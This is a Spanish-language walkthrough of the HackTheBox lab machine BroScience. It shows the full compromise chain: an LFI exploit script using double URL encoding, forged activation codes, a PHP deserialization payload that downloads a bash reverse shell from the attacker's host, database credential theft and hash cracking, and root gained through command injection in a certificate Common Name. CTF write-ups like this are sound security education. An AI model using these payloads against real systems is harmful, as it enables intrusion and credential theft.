








Resolución de la máquina BroScience de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.195
Nmap scan report for 10.10.11.195
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
Al hacer un simple curl y mirar las cabeceras podemos ver el dominio broscience.htb
❯ curl -s 10.10.11.195 -I | grep Location
Location: http://broscience.htb/
Fuzzeando directorios con gobuster podemos ver que existe uno llamado includes
❯ gobuster dir -u https://broscience.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100 -k
===============================================================
[+] Url: https://broscience.htb/
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 319] [--> https://broscience.htb/images/]
/includes (Status: 301) [Size: 321] [--> https://broscience.htb/includes/]
/styles (Status: 301) [Size: 319] [--> https://broscience.htb/styles/]
/javascript (Status: 301) [Size: 323] [--> https://broscience.htb/javascript/]
/manual (Status: 301) [Size: 319] [--> https://broscience.htb/manual/]
Al verlo desde el navegador podemos ver varios archivos.php entre ellos img.php

Abriendo el img.php nos pide un argumento con el parametro path, suena a lfi

Si le pasamos el /etc/passwd con un directory path traversal, lo detecta como ataque

Despues de probar varias cosas, al urlencodearlo 2 veces nos muestra el contenido

Podemos crear un script en python que automatize el doubleurlencode y la petición
#!/usr/bin/python3
import requests, sys, warnings
warnings.simplefilter("ignore")
if len(sys.argv) < 2:
print(f"\n\033[1;37m[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <file>\n")
exit(1)
def doubleurlencode(string):
urlencode = ""
for character in string:
decimal = ord(character)
urlencode += "%" + hex(decimal)[2:]
double = ""
for character in urlencode:
decimal = ord(character)
double += "%" + hex(decimal)[2:]
return double
dpt = doubleurlencode("../../../../")
file = doubleurlencode(sys.argv[1])
target = "https://broscience.htb/includes/img.php?path="
request = requests.get(target + dpt + file, verify=False)
response = request.text
print(response.strip())
En el utils.php que habiamos visto, encontramos una funcion para activar la cuenta
❯ python3 exploit.py /var/www/html/includes/utils.php | head -n10
<?php
function generate_activation_code() {
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand(time());
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
return $activation_code;
}
?>
En realidad deberia ser bastante facil activar nuestra cuenta, ya que la creacion de el codigo se basa en el tiempo en que se crea, entonces vamos a crear una cuenta

Al enviar la petición interceptamos la respuesta para ver la cabecera Date

Creamos el codigo cambiando en el php time() por strtotime y le pasamos el Date
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
srand(strtotime("Sun, 08 Jan 2023 19:12:29 GMT"));
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo $activation_code;
?>
Ejecutandolo nos dará un codigo de activación que deberia ser válido
❯ php generate.php
TgwM7M253W5gRUJLvLeqUItOoyTialHL
Enviamos la petición a /activate.php con el codigo en el parametro code, en la respuesta podemos ver que nos dice que la cuenta se ha activado

En el utils.php tambien encontramos la funcion get_theme, dodne vemos que aprovechando que deserealiza la cookie podriamos inyectar un php y ganar acceso
❯ python3 exploit.py /var/www/html/includes/utils.php | sed -n 63,76p
function get_theme() {
if (isset($_SESSION['id'])) {
if (!isset($_COOKIE['user-prefs'])) {
$up_cookie = base64_encode(serialize(new UserPrefs()));
setcookie('user-prefs', $up_cookie);
} else {
$up_cookie = $_COOKIE['user-prefs'];
}
$up = unserialize(base64_decode($up_cookie));
return $up->theme;
} else {
return "light";
}
}
Tambien encontramos las clases Avatar y AvatarInterface que guardan archivos localmente
❯ python3 exploit.py /var/www/html/includes/utils.php | sed -n 95,117p
class Avatar {
public $imgPath;
public function __construct($imgPath) {
$this->imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w");
fwrite($f, file_get_contents($tmp));
fclose($f);
}
}
class AvatarInterface {
public $tmp;
public $imgPath;
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}
Ahora simplemente modificamos la variable tmp e imgPath para que apunte a nuestro equipo, para finalmente serializar la data, quedaria un script como el siguiente
<?php
class Avatar {
public $imgPath;
public function __construct($imgPath) {
$this->imgPath = $imgPath;
}
public function save($tmp) {
$f = fopen($this->imgPath, "w");
fwrite($f, file_get_contents($tmp));
fclose($f);
}
}
class AvatarInterface {
public $tmp = "http://10.10.14.10/pwned.php";
public $imgPath = "./pwned.php";
public function __wakeup() {
$a = new Avatar($this->imgPath);
$a->save($this->tmp);
}
}
$payload = base64_encode(serialize(new AvatarInterface));
echo $payload;
?>
Al ejecutar el php nos dará una data serializada que usaremos como cookie
❯ php serializer.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyODoiaHR0cDovLzEwLjEwLjE0LjEwL3B3bmVkLnBocCI7czo3OiJpbWdQYXRoIjtzOjExOiIuL3B3bmVkLnBocCI7fQ==
Ahora alojaremos el pwned.php al que llamamos desde ahi, y lo compartiremos
❯ cat pwned.php
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.104/443 0>&1'")
?>
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
En la web donde tenemos iniciada sesión cambiamos nuestra cookie por el payload generado

Recargamos y nos llegara una petición, indica que ha funcionado
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.195 - - "GET /pwned.php HTTP/1.0" 200 -
Ahora que se ha guardado la shell, la invocamos y obtenemos www-data
❯ curl -k https://broscience.htb/pwned.php
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.195
www-data@broscience:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@broscience:~/html$ hostname -I
10.10.11.195 dead:beef::250:56ff:feb9:8659
www-data@broscience:~/html$
Revisando de nuevo los archivos con el lfi podemos encontrar credenciales para postgresql
❯ python3 exploit.py /var/www/html/includes/db_connect.php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";
$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");
if (!$db_conn) {
die("Error: Unable to connect to database");
}
?>
Podemos enumerar la base de datos con psql usando las credenciales, conseguimos hashes
www-data@broscience:~$ psql -h localhost -d broscience -U dbuser
Password for user dbuser: RangeOfMotion%777
psql (13.9 (Debian 13.9-0+deb11u1))
Type "help" for help.
broscience=> \dt
List of relations
Schema | Name | Type | Owner
--------+-----------+-------+----------
public | comments | table | postgres
public | exercises | table | postgres
public | users | table | postgres
(3 rows)
broscience=> select username,password from users;
username | password
---------------+----------------------------------
administrator | 15657792073e8a843d4f91fc403454e1
bill | 13edad4932da9dbb57d9cd15b66ed104
michael | bd3dad50e2d578ecba87d5fa15ca5f85
john | a7eed23a7be6fe0d765197b1027453fe
dmytro | 5d15340bded5b9395d5d14b9c21bc82b
(5 rows)
broscience=>
Podemos intentar romper los hashes pero tenemos que agregar el salt al inicio de cada linea
❯ cat hashes
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104
michael:bd3dad50e2d578ecba87d5fa15ca5f85
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b
❯ sed 's/^/NaCl/' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt > newrockyou.txt
❯ john -w:newrockyou.txt hashes --format=Raw-MD5
Loaded 5 password hashes with no different salts (Raw-MD5 [MD5 128/128 XOP 4x2])
NaCliluvhorsesandgym (bill)
NaClAaronthehottest (dmytro)
NaCl2applesplus2apples (michael)
Session completed
Si usamos las credenciales de bill quitandole el salt nos podemos conectar por ssh
❯ ssh bill@10.10.11.195
bill@10.10.11.195's password: iluvhorsesandgym
bill@broscience:~$ id
uid=1000(bill) gid=1000(bill) groups=1000(bill)
bill@broscience:~$ hostname -I
10.10.11.195 dead:beef::250:56ff:feb9:8659
bill@broscience:~$ cat user.txt
ba2**************************81f
bill@broscience:~$
Usando pspy podemos ver que root ejecuta un script con un certificado como argumento
timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt
El contenido del script es el siguiente, podemos intentar ejecutar un comando en el crt
bill@broscience:~$ cat /opt/renew_cert.sh
#!/bin/bash
if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
echo "Usage: $0 certificate.crt";
exit 0;
fi
if [ -f $1 ]; then
openssl x509 -in $1 -noout -checkend 86400 > /dev/null
if [ $? -eq 0 ]; then
echo "No need to renew yet.";
exit 1;
fi
subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)
country=$(echo $subject | grep -Eo 'C = .{2}')
state=$(echo $subject | grep -Eo 'ST = .*,')
locality=$(echo $subject | grep -Eo 'L = .*,')
organization=$(echo $subject | grep -Eo 'O = .*,')
organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
commonName=$(echo $subject | grep -Eo 'CN = .*,?')
emailAddress=$(openssl x509 -in $1 -noout -email)
country=${country:4}
state=$(echo ${state:5} | awk -F, '{print $1}')
locality=$(echo ${locality:3} | awk -F, '{print $1}')
organization=$(echo ${organization:4} | awk -F, '{print $1}')
organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
commonName=$(echo ${commonName:5} | awk -F, '{print $1}')
echo $subject;
echo "";
echo "Country => $country";
echo "State => $state";
echo "Locality => $locality";
echo "Org Name => $organization";
echo "Org Unit => $organizationUnit";
echo "Common Name => $commonName";
echo "Email => $emailAddress";
echo -e "\nGenerating certificate...";
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
$state
$locality
$organization
$organizationUnit
$commonName
$emailAddress
" 2>/dev/null
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
echo "File doesn't exist"
exit 1;
fi
bill@broscience:~$
Usando el comando que nos muestra el script podemos generar uno dejando todos los campos vacios pero en el Common Name ejecutar un comando
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
Generating a RSA private key
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
Email Address []:
bill@broscience:~$
Despues de unos segundos revisamos la bash y es suid, nos convertimos en root
bill@broscience:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27 2022 /bin/bash
bill@broscience:~$ bash -p
bash-5.1# whoami
root
bash-5.1# hostname -I
10.10.11.195 dead:beef::250:56ff:feb9:8659
bash-5.1# cat /root/root.txt
af8**************************41c
bash-5.1#